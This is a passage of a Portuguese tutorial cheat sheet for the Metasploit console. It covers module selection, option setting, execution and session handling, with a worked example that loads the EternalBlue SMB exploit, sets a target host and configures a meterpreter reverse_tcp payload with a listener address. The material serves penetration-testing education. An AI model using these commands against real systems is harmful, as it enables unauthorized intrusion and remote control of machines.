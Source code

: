 **3. Seleção de módulos**
* `use <módulo>` → carrega um módulo.

  ```
  msf6 > use exploit/windows/smb/ms17_010_eternalblue
  [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
  msf6 exploit(windows/smb/ms17_010_eternalblue) > 
  ```
* `back` → volta ao contexto anterior (sai do módulo).
* `show options` → lista opções configuráveis do módulo selecionado.
* `show payloads` → mostra payloads compatíveis com o exploit.
* `show targets` → lista os sistemas-alvo suportados.

**4. Configuração**
* `set <opção> <valor>` → define valores.

  ```
  set RHOSTS 192.168.1.100
  set PAYLOAD windows/meterpreter/reverse_tcp
  ```
* `setg <opção> <valor>` → define opções globais (valem para todos os módulos).

  ```
  setg LHOST 192.168.1.50
  ```
* `unset <opção>` → remove configuração.
  
**5. Execução**
* `exploit` ou `run` → executa o módulo selecionado.
  
  ```
  exploit
  ```
* `exploit -j` → roda em segundo plano como job.
* `exploit -z` → executa sem interagir com sessão aberta.

**6. Sessões**

* `sessions` → lista sessões ativas (ex.: meterpreter, shells).
* `sessions -i <id>` → interage com sessão específica.
  
  ```
  sessions -i 1
  ```
* `sessions -k <id>` → encerra uma sessão.

**7. Outros úteis**

* `jobs` → lista jobs rodando em background.
* `jobs -k <id>` → mata um job.
* `history` → histórico de comandos.
* `help` → mostra ajuda.
* `banner` → muda a arte ASCII da inicialização 😁.

### Fluxo típico de uso

1. **Buscar módulo:**
   ```
   search ms17_010
   ```
2. **Carregar exploit:**
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```
3. **Ver opções e payloads:**
   ```
   show options
   show payloads
   ```
4. **Configurar parâmetros:**
   ```
   set RHOSTS 192.168.1.100
   ```